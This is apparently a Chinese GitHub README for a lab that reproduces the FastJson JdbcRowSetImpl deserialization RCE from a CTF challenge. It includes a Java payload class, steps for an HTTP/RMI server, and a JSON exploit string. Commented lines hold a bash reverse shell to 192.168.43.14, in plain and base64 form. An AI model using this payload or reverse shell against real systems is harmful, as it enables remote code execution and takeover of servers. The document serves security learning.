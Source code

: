 # FastJson-JdbcRowSetImpl

## 初心

### 在前不久的护网杯CTF比赛中，有一道Web的“easy_web”题，其实就是利用FastJson的JdbcRowSetImpl类反序列化漏洞进行Shell，然后cat Flag。一大部分人对这道题是懵逼的，没做出来，后面因护网杯题目关闭了，没有此漏洞的学习环境，所以我就写了此环境，方便大家学习交流。

## 漏洞环境构建

```
root@Bearcat:/# wget "https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war" -P /opt/apache-tomcat-8.5.24/webapps/ && cd /opt/apache-tomcat-8.5.24/bin/ && ./startup.sh

--2018-10-19 03:56:31--  https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war
Resolving github.com (github.com)... 192.30.253.112, 192.30.253.113
Connecting to github.com (github.com)|192.30.253.112|:443... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://github.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/raw/master/FastJson_Vul.war [following]
--2018-10-19 03:56:34--  https://github.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/raw/master/FastJson_Vul.war
Reusing existing connection to github.com:443.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/master/FastJson_Vul.war [following]
--2018-10-19 03:56:36--  https://raw.githubusercontent.com/iBearcat/FastJson-JdbcRowSetImpl-RCE/master/FastJson_Vul.war
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.24.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.24.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1124826 (1.1M) [application/octet-stream]
Saving to: ‘/opt/apache-tomcat-8.5.24/webapps/FastJson_Vul.war’

FastJson_Vul.war                          100%[==================================================================================>]   1.07M   116KB/s    in 9.2s

2018-10-19 03:56:46 (119 KB/s) - ‘/opt/apache-tomcat-8.5.24/webapps/FastJson_Vul.war’ saved [1124826/1124826]

Using CATALINA_BASE:   /opt/apache-tomcat-8.5.24
Using CATALINA_HOME:   /opt/apache-tomcat-8.5.24
Using CATALINA_TMPDIR: /opt/apache-tomcat-8.5.24/temp
Using JRE_HOME:        //opt/jdk1.8.0_131/jre
Using CLASSPATH:       /opt/apache-tomcat-8.5.24/bin/bootstrap.jar:/opt/apache-tomcat-8.5.24/bin/tomcat-juli.jar
Tomcat started.
root@Bearcat:/opt/apache-tomcat-8.5.24/bin#
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/1.jpg?raw=true)

### 访问漏洞环境 http://localhost:8888/FastJson_Vul

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/2.jpg?raw=true)

## 漏洞利用

### 在CommandObject.java类中的commands数组中构造想要执行的命令

### 编译 javac CommandObject.java

```
import	java.lang.Runtime;
import	java.lang.Process;
public class CommandObject {
    public CommandObject(){
        try{
			Runtime	rt	=	Runtime.getRuntime();
			//Runtime.getRuntime().exec("/bin/bash -i >&/dev/tcp/192.168.43.14/2018<&1");
			//String[] commands = {"bash -c {echo,L2Jpbi9iYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC40My4xNC8yMDE4PCYx}|{base64,-d}|{bash,-i}"};
			
			String[] commands = {"touch","/opt/test"}; //Command
			Process	pc = rt.exec(commands);
			pc.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        CommandObject e = new CommandObject();
    }
}
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/3.jpg?raw=true)

## 漏洞利用

### 开启一个HTTP服务，并且开启 RMIServer

### 如：

```
Python2 -m SimpleHTTPServer 80
Python3 -m http.server 80
```

### 生成Payload

```
java -jar FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar <HTTP服务地址> 指定RMI端口
```

### FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar 会生成一串Json Payload

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/4.jpg?raw=true)

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```

### 把它Copy到漏洞环境的input中，然后submit进行攻击。

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/5.jpg?raw=true)


### 成功执行命令，并touch test

```
String[] commands = {"touch","/opt/test"}; //Command
```
![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/6.jpg?raw=true)

# 致谢我的好基友

### pyn3rd https://github.com/pyn3rd/CVE-2018-2893
### 背影   https://github.com/yanweijin
